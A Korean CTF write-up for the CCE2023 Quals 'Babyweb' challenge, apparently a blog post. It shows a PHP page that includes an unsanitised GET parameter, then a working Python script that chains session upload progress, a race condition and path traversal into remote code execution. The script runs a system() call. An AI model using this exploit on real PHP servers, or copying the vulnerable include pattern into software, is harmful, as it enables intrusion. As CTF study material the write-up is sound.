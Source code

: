 ```yaml
---
layout: post
date: 2023-06-11
title: CCE2023 Quals Babyweb write-up
tags: [LFI2RCE, webhacking, ]
categories: [CTF, CCE2023, ]
---
```


### 취약점 분석


먼저 제공된 파일 중 `index.php`을 보면 GET 파라미터로 넘어온 값을 include 한다는 것을 알 수 있다.


```php
<?php
    $page = $_GET['page'];
    if(isset($page)){
        include("./data/".$page);
    } else {
        header("Location: /?page=1");
    }
?>

```


이를 통해 LFI 취약점을 트리거 할 수 있는데, php 내용을 어디에 쓸 수 있을 지가 고민이었다.


`www.conf`의 내용을 보면 `session.upload_progress.enabled`가 1로 설정되어 있으므로, `PHP_SESSION_UPLOAD_PROGRESS`를 통해 php 코드를 업로드 할 수 있다.


```text
[www]
user = www-data
group = www-data
listen = /run/php/php7.4-fpm.sock
listen.owner = www-data
listen.group = www-data
pm = dynamic
pm.max_children = 48
pm.start_servers = 16
pm.min_spare_servers = 8
pm.max_spare_servers = 16
php_admin_value[session.upload_progress.enabled] = 1
php_admin_value[memory_limit] = 32M
php_admin_value[max_execution_time] = 10s
php_admin_value[opcache.enable] = 0
request_terminate_timeout = 15s

```


`session.upload_progress.enabled`옵션은 php 내부에서 업로드 중인 개별 파일의 진행률을 추적하기 위해 사용된다.
해당 옵션이 켜져있으면 `session_start` 함수 없이도 세션 파일을 생성할 수 있으므로 세션 파일을 통해 RCE를 진행할 수 있다.


다만, 해당 문제에서는 `session.upload_progress.cleanup` 옵션이 활성화 되어 있으므로 세션 파일이 바로 삭제된다. 하지만 크기가 큰 파일을 보내고, Race Condition을 통하면 세션 파일을 읽을 수 있다.


### 익스플로잇


```python
import requests
import threading

SERVER = False
url = '<http://localhost:8080>' if not SERVER else "<http://20.196.197.149:8000>"


def read_session():
    while True:
        res = requests.get(
            url + "/?page=../../../../../../../../../../var/lib/php/sessions/sess_lourcode")
        if len(res.text) != 0:
            print(res.text)

def write_session():
    while True:
        res = requests.post(url, files={'PHP_SESSION_UPLOAD_PROGRESS': (None, '<?php system("/readflag") ?>'), 'file': ('lourcode', 'lourcode' * 0x300, 'application/octet-stream', {
                            'Expires': '0'})}, cookies={'PHPSESSID': 'lourcode'})



read = threading.Thread(target=read_session)
read.start()

write = threading.Thread(target=write_session)
write.start()
```


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/7408dda1-cd86-4a3d-ba15-65d01621923b/1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20230618%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20230618T103502Z&X-Amz-Expires=3600&X-Amz-Signature=0cd90e8c5337f80a9eb368084d359336bdd652e7378a1bf01a012792245bb3f1&X-Amz-SignedHeaders=host&x-id=GetObject)


플래그를 획득하였다.


### Reference


[https://book.hacktricks.xyz/pentesting-web/file-inclusion/via-php_session_upload_progress](https://book.hacktricks.xyz/pentesting-web/file-inclusion/via-php_session_upload_progress)

